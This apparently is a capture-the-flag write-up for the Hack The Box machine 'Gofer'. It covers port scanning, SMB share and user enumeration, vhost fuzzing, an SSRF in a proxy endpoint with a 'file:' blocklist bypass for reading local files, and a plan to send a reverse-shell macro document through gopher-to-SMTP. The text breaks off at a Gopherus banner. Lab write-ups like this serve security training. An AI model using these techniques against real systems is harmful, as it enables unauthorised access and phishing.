## Network Enumeration:

```
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 aa:25:82:6e:b8:04:b6:a9:a9:5e:1a:91:f0:94:51:dd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDWZZaa5+lpCnLnH42pyiIScrRRvf/NoqBUraxWR23i67HWvgClOZ2tNUmW/Xo0VM6G4NcxKtVWKA7STRI98kVfm7AlzNOEFniGv1ojAbarbVK0UETqpleJ7MhcizblfdISP4MiDWzBiBOe8oDzDLHlPtLIdOngxG5khGUIZNAJayY96zQk5bzEZsrpax2tIbqd8HboG431Dbgv1QnR9HiqczuL8RxZyIIKYAFOwDSw8Xg/VAyOLjdgGTC9+gRTbKP++qWEYNgXv6m9bBRgjQBpoE5TZBEc1io6TETN1sDH7Diy5K4cJq6a39cfNFtZ/LIFbtW/ZE2nzadleVe0QhHNB9/vmrDq27DXs74oWGtgV/TnUOTLmQzDP5twlWzpmCIx55nTsDfwzzCLOjOCgr0mOrG6h+jRKyC3zQCrq7dXw8reafFqFA42xVgaYFO1rVfkyN9vTWXbLYJGuvF0CHX7TSZhkrUqCrkSHi670FB0vfXORU7BfF3QotuCBSMtkE0=
|   256 18:21:ba:a7:dc:e4:4f:60:d7:81:03:9a:5d:c2:e5:96 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDgM/I3iBB8uss3VbigwVRLn3XyEzyib5V7L2eawFppGx57/p7ET/YBzMrW+SElgaK/2AlYU0QB4HxlkWIkOQMM=
|   256 a4:2d:0d:45:13:2a:9e:7f:86:7a:f6:f7:78:bc:42:d9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK54Htnt4YCWx5SNZ+9Th2jmN7sX3rLUePwWS6MfwNDU
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.6.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=8/24%OT=22%CT=%CU=40998%PV=Y%DS=2%DC=T%G=N%TM=64E732E1%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 36.917 days (since Tue Jul 18 14:37:02 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: gofer.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   GOFER<00>            Flags: <unique><active>
|   GOFER<03>            Flags: <unique><active>
|   GOFER<20>            Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2023-08-24T10:37:20
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 45682/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57657/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44281/udp): CLEAN (Failed to receive data)
|   Check 4 (port 58485/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
```

* * *

## SSH:

As usual ssh is not our first way , no known exploits are available in the wild out there. Bruteforce is not a indended way that's why I will move on for now and come back as soon I find a valid set of credentials.

* * *

## SMB:

As we see from our initial network enumeration, samba is open on the machine on ports 139,445 so what we can do we can fire up enum4linux-ng and check if we can find some interesting informations:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# enum4linux-ng -A gofer.htb
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... gofer.htb
[*] Username ......... ''
[*] Random Username .. 'spabwbze'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ==================================
|    Listener Scan on gofer.htb    |
 ==================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ========================================================
|    NetBIOS Names and Workgroup/Domain for gofer.htb    |
 ========================================================
[+] Got domain/workgroup name: WORKGROUP
[+] Full NetBIOS names information:
- GOFER           <00> -         B <ACTIVE>  Workstation Service                                                                                                                                                                                             
- GOFER           <03> -         B <ACTIVE>  Messenger Service                                                                                                                                                                                               
- GOFER           <20> -         B <ACTIVE>  File Server Service                                                                                                                                                                                             
- ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser                                                                                                                                                                                                  
- WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name                                                                                                                                                                                           
- WORKGROUP       <1d> -         B <ACTIVE>  Master Browser                                                                                                                                                                                                  
- WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections                                                                                                                                                                                       
- MAC Address = 00-00-00-00-00-00                                                                                                                                                                                                                            

 ======================================
|    SMB Dialect Check on gofer.htb    |
 ======================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                                          
  SMB 1.0: false                                                                                                                                                                                                                                             
  SMB 2.02: true                                                                                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                                                                                             
SMB signing required: false                                                                                                                                                                                                                                  

 ========================================================
|    Domain Information via SMB session for gofer.htb    |
 ========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: GOFER                                                                                                                                                                                                                                 
NetBIOS domain name: ''                                                                                                                                                                                                                                      
DNS domain: htb                                                                                                                                                                                                                                              
FQDN: gofer.htb                                                                                                                                                                                                                                              
Derived membership: workgroup member                                                                                                                                                                                                                         
Derived domain: unknown                                                                                                                                                                                                                                      

 ======================================
|    RPC Session Check on gofer.htb    |
 ======================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[+] Server allows session using username 'spabwbze', password ''
[H] Rerunning enumeration with user 'spabwbze' might give more results

 ================================================
|    Domain Information via RPC for gofer.htb    |
 ================================================
[+] Domain: WORKGROUP
[+] Domain SID: NULL SID
[+] Membership: workgroup member

 ============================================
|    OS Information via RPC for gofer.htb    |
 ============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Linux/Unix (Samba 4.13.13-Debian)                                                                                                                                                                                                                        
OS version: '6.1'                                                                                                                                                                                                                                            
OS release: ''                                                                                                                                                                                                                                               
OS build: '0'                                                                                                                                                                                                                                                
Native OS: not supported                                                                                                                                                                                                                                     
Native LAN manager: not supported                                                                                                                                                                                                                            
Platform id: '500'                                                                                                                                                                                                                                           
Server type: '0x809a03'                                                                                                                                                                                                                                      
Server type string: Wk Sv PrQ Unx NT SNT Samba 4.13.13-Debian                                                                                                                                                                                                

 ==================================
|    Users via RPC on gofer.htb    |
 ==================================
[*] Enumerating users via 'querydispinfo'
[+] Found 0 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 0 user(s) via 'enumdomusers'

 ===================================
|    Groups via RPC on gofer.htb    |
 ===================================
[*] Enumerating local groups
[+] Found 0 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 0 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 0 group(s) via 'enumdomgroups'

 ===================================
|    Shares via RPC on gofer.htb    |
 ===================================
[*] Enumerating shares
[+] Found 3 share(s):
IPC$:                                                                                                                                                                                                                                                        
  comment: IPC Service (Samba 4.13.13-Debian)                                                                                                                                                                                                                
  type: IPC                                                                                                                                                                                                                                                  
print$:                                                                                                                                                                                                                                                      
  comment: Printer Drivers                                                                                                                                                                                                                                   
  type: Disk                                                                                                                                                                                                                                                 
shares:                                                                                                                                                                                                                                                      
  comment: ''                                                                                                                                                                                                                                                
  type: Disk                                                                                                                                                                                                                                                 
[*] Testing share IPC$
[-] Could not check share: STATUS_OBJECT_NAME_NOT_FOUND
[*] Testing share print$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share shares
[+] Mapping: OK, Listing: OK

 ======================================
|    Policies via RPC for gofer.htb    |
 ======================================
[*] Trying port 445/tcp
[+] Found policy:
Domain password information:                                                                                                                                                                                                                                 
  Password history length: None                                                                                                                                                                                                                              
  Minimum password length: 5                                                                                                                                                                                                                                 
  Maximum password age: 49710 days 6 hours 21 minutes                                                                                                                                                                                                        
  Password properties:                                                                                                                                                                                                                                       
  - DOMAIN_PASSWORD_COMPLEX: false                                                                                                                                                                                                                           
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false                                                                                                                                                                                                                    
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false                                                                                                                                                                                                                   
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false                                                                                                                                                                                                                    
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false                                                                                                                                                                                                          
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false                                                                                                                                                                                                            
Domain lockout information:                                                                                                                                                                                                                                  
  Lockout observation window: 30 minutes                                                                                                                                                                                                                     
  Lockout duration: 30 minutes                                                                                                                                                                                                                               
  Lockout threshold: None                                                                                                                                                                                                                                    
Domain logoff information:                                                                                                                                                                                                                                   
  Force logoff time: 49710 days 6 hours 21 minutes                                                                                                                                                                                                           

 ======================================
|    Printers via RPC for gofer.htb    |
 ======================================
[+] No printers returned (this is not an error)

Completed after 14.27 seconds
```

As we can see this machine seems like domain joined, seem like password complexity is not enforced , but password lenght is minimum of 5 chars and a lockout duration of 30 minutes which impossibilitate any bruteforce attempt. Let's try to map manually those shares:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# smbclient -L //gofer.htb
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      
        IPC$            IPC       IPC Service (Samba 4.13.13-Debian)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
protocol negotiation failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

Let's see what can we do with that "shares" share:

```
──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# smbclient //gofer.htb/shares
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct 28 21:32:08 2022
  ..                                  D        0  Fri Apr 28 13:59:34 2023
  .backup                            DH        0  Thu Apr 27 14:49:32 2023

                5061888 blocks of size 1024. 2162476 blocks available
smb: \> cd .backup\
smb: \.backup\> ls
  .                                   D        0  Thu Apr 27 14:49:32 2023
  ..                                  D        0  Fri Oct 28 21:32:08 2022
  mail                                N     1101  Thu Apr 27 14:49:32 2023

                5061888 blocks of size 1024. 2162476 blocks available
smb: \.backup\> cd mail          
cd \.backup\mail\: NT_STATUS_NOT_A_DIRECTORY
smb: \.backup\> ll
ll: command not found
smb: \.backup\> get mail                           
getting file \.backup\mail of size 1101 as mail (3.6 KiloBytes/sec) (average 3.6 KiloBytes/sec)
smb: \.backup\> exit

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# ll
total 8
-rw-r--r-- 1 root root   14 Aug 24 11:29 file.txt
-rw-r--r-- 1 root root 1101 Aug 24 13:20 mail

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# file mail                                                                                                                                                                                                                                                
mail: ASCII text, with very long lines (407)

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# cat mail                                                                                                                                                                                                                                                 
From jdavis@gofer.htb  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: tbuckley@gofer.htb
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an .odt format, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>
```

Ok, we have 2 usernames:

```
jdavis@gofer.htb
tbuckley@gofer.htb
```

On this point we can't do much about, we could try to do a RID bruteforce over RPC service and try to "guess" the other available users on the machine and to do so I will use enum4linux:

```
====================( Users on gofer.htb via RID cycling (RIDS: 500-550,1000-1050) )====================
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
[I] Found new SID:                                                                                                                                                                                                                                           
S-1-22-1                                                                                                                                                                                                                                                     

[I] Found new SID:                                                                                                                                                                                                                                           
S-1-5-32                                                                                                                                                                                                                                                     

[I] Found new SID:                                                                                                                                                                                                                                           
S-1-5-32                                                                                                                                                                                                                                                     

[I] Found new SID:                                                                                                                                                                                                                                           
S-1-5-32                                                                                                                                                                                                                                                     

[I] Found new SID:                                                                                                                                                                                                                                           
S-1-5-32                                                                                                                                                                                                                                                     

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                                                                                                                                                                  
                                                                                                                                                                                                                                                             
S-1-5-32-544 BUILTIN\Administrators (Local Group)                                                                                                                                                                                                            
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                                                                                                  
                                                                                                                                                                                                                                                             
S-1-22-1-1000 Unix User\jhudson (Local User)                                                                                                                                                                                                                 
S-1-22-1-1001 Unix User\jdavis (Local User)
S-1-22-1-1002 Unix User\tbuckley (Local User)
S-1-22-1-1003 Unix User\ablake (Local User)

[+] Enumerating users using SID S-1-5-21-510552225-995404492-4015181936 and logon username '', password ''                                                                                                                                                   
                                                                                                                                                                                                                                                             
S-1-5-21-510552225-995404492-4015181936-501 GOFER\nobody (Local User)                                                                                                                                                                                        
S-1-5-21-510552225-995404492-4015181936-513 GOFER\None (Domain Group)

 =================================( Getting printer info for gofer.htb )=================================
                                                                                                                                                                                                                                                             
No printers returned.                                                                                                                                                                                                                                        


enum4linux complete on Thu Aug 24 13:34:15 2023
```

And yes we can confirm that Joycelene and Tom are present. But now we must move on cause we can't do much more here!

* * *

## HTTP:

Surfing manually on the webpage we are in front of a company website that develops websites:


We can confirm all the users:

```HTML
<div class="member-info-content">
                  <h4>Jeff Davis</h4>
                  <span>Chief Executive Officer</span>

                <div class="member-info-content">
                  <h4>Jocelyn Hudson</h4>
                  <span>Product Manager</span>


                <div class="member-info-content">
                  <h4>Tom Buckley</h4>
                  <span>CTO</span>


                  <h4>Amanda Blake</h4>
                  <span>Accountant</span>
```

There is a website contact form that we can try to check:


But it's not activated:


Checking for possible subdomains show the presence of one VHOST:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://gofer.htb/ -H "Host:FUZZ.gofer.htb" -fl 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://gofer.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.gofer.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 10
________________________________________________

[Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 59ms]
    * FUZZ: proxy

:: Progress: [19966/19966] :: Job [1/1] :: 564 req/sec :: Duration: [0:00:58] :: Errors: 0 ::
```

And doing the same on the main vhost is not showing anything interesting here:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# dirsearch -u "http://gofer.htb/"

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/TEMP/reports/http_gofer.htb/__23-08-24_13-46-21.txt

Target: http://gofer.htb/

[13:46:21] Starting:                                                                                                                                                                                                                                         
[13:46:24] 403 -  274B  - /.ht_wsr.txt                                      
[13:46:24] 403 -  274B  - /.htaccess.sample                                 
[13:46:24] 403 -  274B  - /.htaccess.orig                                   
[13:46:24] 403 -  274B  - /.htaccess.bak1
[13:46:24] 403 -  274B  - /.htaccess.save                                   
[13:46:24] 403 -  274B  - /.htaccess_extra                                  
[13:46:24] 403 -  274B  - /.htaccess_orig
[13:46:25] 403 -  274B  - /.htaccessBAK
[13:46:25] 403 -  274B  - /.htaccess_sc
[13:46:25] 403 -  274B  - /.htaccessOLD                                     
[13:46:25] 403 -  274B  - /.htaccessOLD2
[13:46:25] 403 -  274B  - /.htm                                             
[13:46:25] 403 -  274B  - /.html                                            
[13:46:25] 403 -  274B  - /.htpasswd_test                                   
[13:46:25] 403 -  274B  - /.htpasswds
[13:46:25] 403 -  274B  - /.httr-oauth                                      
[13:46:26] 403 -  274B  - /.php                                             
[13:46:35] 200 -  477B  - /assets/                                          
[13:46:35] 301 -  307B  - /assets  ->  http://gofer.htb/assets/             
[13:47:10] 403 -  274B  - /server-status                                    
[13:47:10] 403 -  274B  - /server-status/                                   
                                                                             
Task Completed
```

Unfortunately that assets folder is not showing anything out of the ordinary I guess we have to move to the proxy webpage!

* * *

## HTTP Proxy.gofer.htb:



Now knowing from previous mail that tom was working on this proxy we could try to perform some bruteforce on the service but it din't worked out. So I had to check for tips and apparently there is a index.php that is accessible via POST method!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# dirsearch -u "http://proxy.gofer.htb/" -m POST

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: POST | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/TEMP/reports/http_proxy.gofer.htb/__23-08-24_15-22-06.txt

Target: http://proxy.gofer.htb/

[15:22:06] Starting:                                                                                                                                                                                                                                         
[15:22:10] 403 -  280B  - /.ht_wsr.txt                                      
[15:22:10] 403 -  280B  - /.htaccess.bak1                                   
[15:22:10] 403 -  280B  - /.htaccess.sample                                 
[15:22:10] 403 -  280B  - /.htaccess.orig                                   
[15:22:10] 403 -  280B  - /.htaccess.save
[15:22:10] 403 -  280B  - /.htaccess_orig                                   
[15:22:10] 403 -  280B  - /.htaccess_extra
[15:22:10] 403 -  280B  - /.htaccessOLD
[15:22:10] 403 -  280B  - /.htaccess_sc                                     
[15:22:10] 403 -  280B  - /.htaccessOLD2
[15:22:10] 403 -  280B  - /.htaccessBAK
[15:22:10] 403 -  280B  - /.htm                                             
[15:22:10] 403 -  280B  - /.html
[15:22:10] 403 -  280B  - /.httr-oauth                                      
[15:22:10] 403 -  280B  - /.htpasswd_test                                   
[15:22:10] 403 -  280B  - /.htpasswds
[15:22:11] 403 -  280B  - /.php                                             
[15:22:32] 200 -   94B  - /index.php                                        
[15:22:32] 200 -   94B  - /index.php/login/                                 
[15:22:50] 403 -  280B  - /server-status                                    
[15:22:50] 403 -  280B  - /server-status/                                   
                                                                             
Task Completed
```

Testing manually seems like the website is asking for a URL:



And sending a HTTP Post request with the URL seems like the website is read:



Here again I tried to read proxy.gofer.htb itself but it didn't work so I googled a bit and apparently the machine name should resemble the foothold, basically it's about a deprecated method called [Gopher](https://www.beyondsecurity.com/resources/vulnerabilities/proxy-allows-gopher-requests)

But here I was wrong basically we should be able to use this url method for malicious stuff. If we try to point the URL to our IP listnening on port 80:

```
POST /index.php?url=http://10.10.16.3 HTTP/1.1
Host: proxy.gofer.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



We can get back a call! let´s see if we can read some local files with this method: https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#file



Ok seems like "file://" it´s blacklisted but eventually using only file:/path it works:



Now from here I couldn´t get anything so going back with what we know:

1.  The machine name resembled the "Gopher"
2.  We know that website is using a postfix to send email locally in odt 

This should tell us that we should inject a revshell into a Office file macro (odt format) and we can do that via gopher protocoll.

I think [this](https://github.com/tarunkant/Gopherus) tool should help me do it!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Tools/Gopherus]
└─# python2.7 gopherus.py --exploit smtp

                                                                                                                                                                                             
  ________              .__                                                                                                                                                                  
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                   
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                   
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                    
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                   
        \/       |__|        \/     \/                 \/                                                                                                                                    
                                                                                                                                                                                             
